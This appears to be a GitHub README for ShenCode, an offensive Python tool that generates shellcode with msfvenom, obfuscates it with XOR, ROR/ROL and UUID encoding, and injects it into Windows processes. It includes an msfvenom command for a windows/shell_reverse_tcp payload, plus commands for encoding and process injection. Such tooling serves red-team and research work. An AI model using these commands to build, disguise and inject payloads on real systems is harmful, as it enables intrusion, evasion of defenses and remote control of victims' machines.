 # ShenCode

A multi purpose tool for shellcode operations

I am developing under Windows. This release brings some compatibility fixes for Kali Linux. `inject` and `ROR2ROL` are Windows dependent. All other features are now available for Kali and maybe other Posix OS.

![](shencode-040.png)

## Features

### Version 0.4.2

- create
	- create shellcodes with msfvenom
- encode
	- `ROR13` to `ROL` with custom key (only Windows)
	- `XOR` encryption
	- `UUID` obfuscation for shellcodes
- extract
	- extract shellcode from position `x` to `y`
- inject
	- inject shellcode into a remote process (only Windows)
- output
	- raw shellcode to file
	- formatting options: `C++, C#, C-ASM, PS, PY, HEX`
	- new inspect option helps to find offsets
	- output in console windows
	- output in template

## ToDo

- automatical compile feature
- integrate more frameworks
- integrate more encoder
- Use PATH for better msfvenom integration

## How to use

### create shellcode

`python shencode.py create --cmd="-p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4443 -f raw -o payload.bin"`
### encode shellcode


| Encoder          | Arguments                                                              |
| ---------------- | ---------------------------------------------------------------------- |
| **ROR13 to ROL** | `encode --filename shell.raw --outputfile shell.enc --key 33`          |
| **UUID**         | `encode --filename shell.raw --uuid`                                   |
| **XOR**          | `encode --filename shell.raw --outputfile shell.enc --xor --xorkey 96` |

### extract shellcode

`python shencode.py extract --filename bin.o --outputfile shell.raw --first-byte 6 --last-byte 128`
### inject shellcode

`python shencode.py inject --filename calc.raw --processname notepad.exe --startprocess`
### output in different styles

#### console output

`python shencode.py -o {c, casm, cs, ps1, py, hex} <commands>`

Check [this repository](https://github.com/psycore8/bin2shellcode) for more information regarding the output.

#### inspect output

`python shencode.py output --filename inputfile --syntax inspect`

Output hex in 8 byte: `0x00000008: 48 31 c0 48 89 45 f8 48`

#### write output to a template file

`python shencode.py output --filename inputfile --write templatefile --syntax c`

This command replaces a `!++BUFFER++!` placeholder in the given file e.g.

```cpp
unsigned char buf[] =
!++BUFFER++!
```

will be replaced by the generated shellcode

```cpp
unsigned char buf[] =
"\x90\x01\..\xff";
```

## Config

Please change the metasploit path in line 10. This will be fixed in the future.

`msfvenom_path = "c:\\metasploit-framework\\bin\\msfvenom.bat"`

## Parameter

Please [refer to the wiki](https://github.com/psycore8/shencode/wiki) for a full parameter list.

| **Command** | **Subcommand** | **Short** | **Description**                                                                       |     |
| ----------- | -------------- | --------- | ------------------------------------------------------------------------------------- | --- |
| create      |                |           | create a shellcode using msfvenom                                                     |     |
|             | --cmd          | -c        | msfvenom command line, use quotation marks and equal sign e.g --cmd=\"-p ...\"        |     |
| encode      |                |           | Shellcode encoding                                                                    |     |
|             | --filename     | -f        | raw input file with shellcode                                                         |     |
|             | --ror2rol      | -r        | encode windows function hashes to ROL                                                 |     |
|             | --key          | -rk       | ROL key for encoding                                                                  |     |
|             | --xor          | -x        | use additional XOR encoding                                                           |     |
|             | --xorkey       | -xk       | XOR key for encoding                                                                  |     |
|             | --uuid         | -u        | Obfuscate Shellcode as UUID                                                           |     |
| extract     |                |           |                                                                                       |     |
|             | --filename     | -f        | binary input file                                                                     |     |
|             | --outputfile   | -o        | name of the outputfile                                                                |     |
|             | --first-byte   | -fb       | first byte to extract                                                                 |     |
|             | --last-byte    | -lb       | last byte to extract                                                                  |     |
| inject      |                |           | inject shellcode                                                                      |     |
|             | --filename     | -f        | raw input file with shellcode to inject                                               |     |
|             | --processname  | -p        | process name to inject                                                                |     |
|             | --startprocess | -s        | if set, process will be started                                                       |     |
| output      |                |           | create formatted output by filename                                                   |     |
|             | --filename     | -f        | raw input file with shellcode                                                         |     |
|             | --lines        | -l        | adding line offsets                                                                   |     |
|             | --syntax       | -s        | formatting the shellcode, choose between `c, casm, cs, hex, inspect, ps1, py`         |     |
|             | --write        | -w        | write output to the given filename (replacing  `!++BUFFER++!` placeholder in the file |     |
| --output    |                |           | formatting the shellcode in C, Casm, C#, Powershell, python or hex                    |     |

## References

- [Function Name Hashing](https://www.bordergate.co.uk/function-name-hashing/)
- [Win32API with python3 injection](https://systemweakness.com/win32api-with-python3-part-iii-injection-6dd3c1b99c90)
- [Violent python: XOR Encryption](https://samsclass.info/124/proj14/VPxor.htm)
- [How to easily encrypt file in python](https://www.stackzero.net/how-to-easily-encrypt-file-in-python/)

